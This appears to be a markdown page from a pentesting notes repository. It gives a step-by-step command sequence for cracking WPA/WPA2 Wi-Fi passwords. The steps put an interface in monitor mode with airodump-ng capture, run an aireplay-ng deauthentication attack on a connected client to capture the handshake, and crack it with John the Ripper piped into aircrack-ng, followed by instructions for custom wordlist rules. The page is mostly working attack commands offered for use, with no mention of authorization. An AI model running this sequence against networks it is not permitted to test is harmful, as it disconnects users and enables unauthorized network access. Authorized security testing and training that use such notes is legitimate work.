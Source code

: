 # John the Ripper (JtR) with Aircrack-ng (WPA/WPA2)

Use this tool to crack WPA/WPA2 passwords with aircrack-ng

## Commands

* Run [setup](../../setup.md) first
* Two terminals are needed
* At least on client associated with the AP

```bash
# [Terminal One]
# Set interface to monitor mode
sudo airmon-ng start $INTERFACE

# Start monitoring to collect data
sudo airodump-ng -c $CHANNEL --bssid $BSSID -w $TAG --output-format pcap $INTERFACE

# [Terminal Two]
# Run the deauthentication attack to get four-way handshake
sudo aireplay-ng --deauth 1 -a $BSSID -c $CLIENT $INTERFACE

# Wait for the four-way handshake to appear in airodump-ng window.

# Stop airodump-ng when it appears
qq

# Crack the password using john
john --wordlist=$WORDLIST --rules --stdout | aircrack-ng -e $SSID $PCAP -w -

# Try other wordlist or create custom rules (see below) if not finding
```

## Customize Rules

We can create additional test cases by editing existing rules.

```bash
# First, check what exists for a given password
john --wordlist=$WORDLIST --rules --stdout | grep -i password123
```

![john-before](../../images/john-before-custom-rules.png)

```bash
# Now, add new rules
sudo vi /etc/john/john.conf

# Search for the List.Rules:Wordlist section
# Add these rules under this section to append more numbers, e.g., password123
$[0-9]$[0-9]
$[0-9]$[0-9]$[0-9]

# Save and try it out
john --wordlist=$WORDLIST --rules --stdout | grep -i password123
```

![john-before](../../images/john-after-custom-rules.png)

## References

* /usr/share/john/password.lst ($WORDLIST)
* /usr/share/wordlists
* [Aircrack-ng](https://www.aircrack-ng.org/doku.php?id=aircrack-ng)
* [Aireplay-ng](https://www.aircrack-ng.org/doku.php?id=aireplay-ng)
* [Airmon-ng](https://www.aircrack-ng.org/doku.php?id=airmon-ng)
* [Airodump-ng](https://www.aircrack-ng.org/doku.php?id=airodump-ng)
* [John the Ripper](https://www.openwall.com/john/)
